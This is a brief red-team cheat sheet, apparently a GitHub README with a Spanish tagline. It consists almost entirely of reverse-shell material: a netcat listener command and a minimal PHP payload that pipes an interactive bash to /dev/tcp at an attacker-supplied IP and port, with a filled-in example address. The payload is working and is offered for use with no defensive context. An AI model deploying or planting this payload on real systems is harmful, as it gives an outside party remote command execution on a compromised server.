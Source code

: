 # red_cheatsheet
Un torpedo para cosas de red teaming

# Reverse Shells

## Netcat Receiver
```
nc -lvnp [receiving port]
```

## Minimal php
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/[IP]/[port] 0>&1'");
```

Example:
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.1.2.3/1234 0>&1'");
```
[ref](https://gist.github.com/rshipp/eee36684db07d234c1cc)
